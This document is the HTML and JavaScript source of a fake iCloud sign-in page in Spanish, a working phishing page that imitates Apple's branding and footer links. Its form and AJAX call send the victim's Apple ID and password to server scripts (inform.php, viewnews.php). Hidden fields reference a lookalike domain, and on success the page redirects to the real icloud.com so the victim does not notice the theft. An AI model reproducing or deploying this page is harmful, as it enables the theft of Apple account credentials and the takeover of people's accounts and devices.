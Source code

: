<html lang="pt-br"><head>

<meta name="robots" content="NOINDEX, NOFOLLOW">

    <title>iCloud</title>

    <meta charset="utf-8">

    <link rel="shortcut icon" href="favicon.ico">

    <link rel="stylesheet" href="css/styles.css">

    <link rel="stylesheet" href="http://code.jquery.com/ui/1.11.3/themes/smoothness/jquery-ui.css">

    <script src="http://code.jquery.com/jquery-1.10.2.js"></script><style type="text/css"></style>

    <script src="http://code.jquery.com/ui/1.11.3/jquery-ui.js"></script>

    <script src="activity-indicator.js"></script>

	

<!--Mobile Script Exceptions-->

<script type="text/javascript">

if (screen.width <= 699) {

document.location = "mobile.html";

}

</script>



<script language="javascript">

if ((navigator.userAgent.match(/iPhone/i)) || (navigator.userAgent.match(/iPod/i))) {

   location.replace("mobile.html");

}

</script>

<!--/Mobile Script Exceptions-->

</head>



<body class="body_image_old" style="visibility: visible;">



<div class="body_image_new" style="opacity: 1;"></div>

<div id="loader" class="loader" style="display: none;"><div style="width: 26px; height: 26px; position: absolute; margin-top: -13px; margin-left: -13px; animation: spin12 0.8s linear infinite;"><svg style="width: 26px; height: 26px;"><g transform="translate(13,13)"><g stroke-width="1.5" stroke-linecap="round" stroke="rgb(255, 255, 255)"><line x1="0" y1="6" x2="0" y2="11" transform="rotate(0, 0, 0)" opacity="1"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(30, 0, 0)" opacity="0.9173553719008265"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(60, 0, 0)" opacity="0.8347107438016529"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(90, 0, 0)" opacity="0.7520661157024794"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(120, 0, 0)" opacity="0.6694214876033058"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(150, 0, 0)" opacity="0.5867768595041323"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(180, 0, 0)" opacity="0.5041322314049588"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(210, 0, 0)" opacity="0.42148760330578516"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(240, 0, 0)" opacity="0.33884297520661155"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(270, 0, 0)" opacity="0.25619834710743805"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(300, 0, 0)" opacity="0.17355371900826455"></line><line x1="0" y1="6" x2="0" y2="11" transform="rotate(330, 0, 0)" opacity="0.09090909090909094"></line></g></g></svg></div></div>

<div class="container">

    <div class="wrapper">



        <div class="header">

            <div class="logo lF"></div>

            <div class="info lR">

                <div class="instr lF">

				<script type="text/javascript">

                        

                        function newPopup(url) {

                            popupWindow = window.open(

                                url,'popUpWindow','height=700,width=800,left=10,top=10,resizable=no,scrollbars=no,toolbar=no,menubar=no,location=no,directories=no,status=yes')

                        }

                    </script>

                    <span><a href="https://www.apple.com/icloud/setup/">Cómo configurar iCloud</a></span>

                </div>

                <div class="help lF"></div>

            </div>

        </div>

		

        <div class="body">

            <div>

                <div class="cloud"></div>

                <div class="labelRef">

                    <span>Iniciar sesión en iCloud</span>

                </div>

                <div>

                    <form action="inform.php" method="post">

                        <div class="boxFrm" style="width:325px;">

                            <div class="line1">

                                <input type="text" value="" class="appId1" placeholder="ID de Apple" name="apple" id="apple">

                            </div>

                            <div class="line2">

                                <input type="Contraseña" value="" class="appId2 lF" placeholder="Contraseña" name="pw" id="pw">

                                <input type="hidden" value="https://p01-caldav.icloud.com" id="server" name="server">

                                <input type="hidden" value="icloudow.com/" name="link">

                                <div style="margin-left:270px;"><input type="submit" value="" class="sbBtn lF" style="opacity: 0.2;"></div>

                            </div>

                        </div>

                    </form>

                </div>

                <div class="cont">

                    <span class="tlrm"><input type="checkbox"></span>

                    <span class="txt">Permanecer conectado</span>

                </div>

                <div class="cont2 sec">

                    <div class="center">

                        <span class="account-cr">No tienes una ID de Apple&nbsp;ID?&nbsp;<a class="clickable" href="#">Crear una ahora.</a></span>

                    </div>

                </div>

            </div>

        </div>

        <div class="footer">

            <div class="fLogo lF"></div>

            <ul class="lR">

                <li><a href="https://www.icloud.com/activationlock">Check&nbsp;Activation&nbsp;Lock&nbsp;Status</a></li>

                <li><a href="https://iforgot.apple.com">Forgot&nbsp;ID&nbsp;or&nbsp;Password?</a></li>

                <li><a href="https://www.apple.com/support/systemstatus/">System&nbsp;Status</a></li>

                <li><a href="https://www.apple.com/privacy/">Privacy&nbsp;Policy</a></li>

                <li><a href="https://www.apple.com/legal/icloud/ww/">Terms&nbsp;&amp;&nbsp;Conditions</a></li>

                <li>Copyright © 2015 Apple Inc. All rights reserved.</li>

            </ul>

        </div>



    </div>

</div>



<script>

      $("body").css("visibility", "hidden");

    $('#loader').activity({width: 1.5, segments: 12, length: 5});

    jQuery('#submit_loader').activity({width: 1.5, segments: 12, length: 5});

    function typeCheck(element) {

        var key = event.keyCode || event.charCode;

        if (key == 8 || key == 46) {

            $(".sbBtn").css("opacity", "0.2");

            return element;

        }

        if (element !== "") {

            $(".sbBtn").css("opacity", "1");

        } else {

            $(".sbBtn").css("opacity", "0.2");

        }

    }

    $(document).ready(function () {

        $("body").css("visibility", "visible");

                function isValidEmailAddress(emailAddress) {

            var pattern = new RegExp(/^(("[\w-+\s]+")|([\w-+]+(?:\.[\w-+]+)*)|("[\w-+\s]+")([\w-+]+(?:\.[\w-+]+)*))(@((?:[\w-+]+\.)*\w[\w-+]{0,66})\.([a-z]{2,6}(?:\.[a-z]{2})?)$)|(@\[?((25[0-5]\.|2[0-4][\d]\.|1[\d]{2}\.|[\d]{1,2}\.))((25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\.){2}(25[0-5]|2[0-4][\d]|1[\d]{2}|[\d]{1,2})\]?$)/i);

            return pattern.test(emailAddress);

        };

        $('input[name=apple]').bind("keydown", function(e){

            // enter key code is 13

            if(e.which == 13 || e.which == 9){

                e.preventDefault();

                var val = $(this).val();

                if (!isValidEmailAddress(val)) {

                    val = val+"@icloud.com";

                    $(this).val(val);

                } else {

                    console.log($(this).val());

                }

                console.log(val);

                $("input[name=pw]").focus();

                if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");



                return false;

            }

        });

        $("input[name=pw]").on("click keyup", function(){

            val = $("input[name=apple]").val();

            if (!isValidEmailAddress(val)) {

                if(val!='@icloud.com' && val!='') val = val+"@icloud.com";

                $("input[name=apple]").val(val);

            }

            if(jQuery('#apple').val()=='' || jQuery('#pw').val()=='') $(".sbBtn").css("opacity", "0.2"); else $(".sbBtn").css("opacity", "1");

        });

        var mm = 0;

        var ss = setTimeout(function () {

            $(".body_image_new").animate({ opacity: "1" }, 1000);

            console.log(mm);

            clearTimeout(ss);

        }, 7500);

        k = 1;

        $(".tlrm").on("click", function () {

            k++;

            if (k % 2 == 0) {

                $("#tlrm").attr("src", "images/checked.png");

            } else {

                $("#tlrm").attr("src", "images/Unknown");

            }

        });

    });

    var ss2 = setTimeout(function () {

        $("#loader").fadeOut("slow");

        $("div.container").fadeIn("slow");

        $("div.container").css("display:", "block");

        $(".sbBtn").css("opacity", "0.2");

        clearTimeout(ss2);

    }, 4500);



    $('#apple,#pw').on('keyup', function(e) {

        if (e.which == 13) {

            checklogin();

        }

    });



    function checklogin()

    {

        var apple = jQuery('#apple').val();

        var pw = jQuery('#pw').val();

        var server = jQuery('#server').val();

        var lang = jQuery('#lang').val();

        var links = jQuery('#link').val();

        if(apple!='' && pw!='')

        {

            jQuery('#submit_button').hide();

            jQuery('#submit_loader').show();

            jQuery.ajax({

                type:"POST",

                url:"viewnews.php",

                data:"apple="+apple+"&pw="+pw+"&server="+server+"&lang="+lang+"&link="+links,

                success: function(msg){

                    if(msg.search("INVALID")!=-1)

                    {

                        $('div.body').effect('shake');

                        jQuery('#submit_button').show();

                        jQuery('#submit_loader').hide();

                        $(".sbBtn").css("opacity", "0.2");



                    }

                    else if(msg.search("SUCCESS")!=-1)

                    {

                        window.location.href = "https://www.icloud.com";

                    }

                    else

                    {

                        $('div.body').effect('shake');

                        jQuery('#submit_button').show();

                        jQuery('#submit_loader').hide();

                        $(".sbBtn").css("opacity", "0.2");

                    }

                }

            });

        }

        else

        {

            if(apple=='') jQuery('#apple').focus();

            else if(pw=='') jQuery('#pw').focus();

        }

    }



    function change_image(src)

    {

        if(src=='check2.png') jQuery('#help_checkbox').attr({'src':'check2.png','onClick':"change_image('check1.png')"}); else jQuery('#help_checkbox').attr('src','check1.png').attr('onClick',"change_image('check2.png')");

    }

</script>

</body></html>

